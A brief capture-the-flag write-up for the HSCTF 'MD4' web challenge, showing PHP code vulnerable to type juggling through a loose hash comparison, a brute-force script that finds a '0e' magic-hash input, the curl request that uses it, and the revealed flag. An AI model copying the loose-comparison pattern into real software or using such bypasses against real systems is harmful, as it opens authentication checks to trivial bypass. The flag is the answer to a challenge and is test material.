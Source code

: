# HSCTF - MD4 --

## Desc

It's a type juggling vuln

## Code 
```php
<?php
$flag = file_get_contents("/flag");

if (!isset($_GET["md4"]))
{
    highlight_file(__FILE__);
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo $flag;
}
else
{
    echo "bad";
}
?>
```

## Sploit
```php
<?php
ini_set('max_execution_time', 300);
for($i=0;$i<999999999;$i++)
    if ("0e".$i == hash("md4", "0e".$i))
        echo "0e".$i."    SUCCESS";
?>
```
```bash
$ php solve.php
0e251288019    SUCCESS

$ curl https://md4.web.chal.hsctf.com/\?md4\=0e251288019
hsctf{php_type_juggling_is_fun}

```
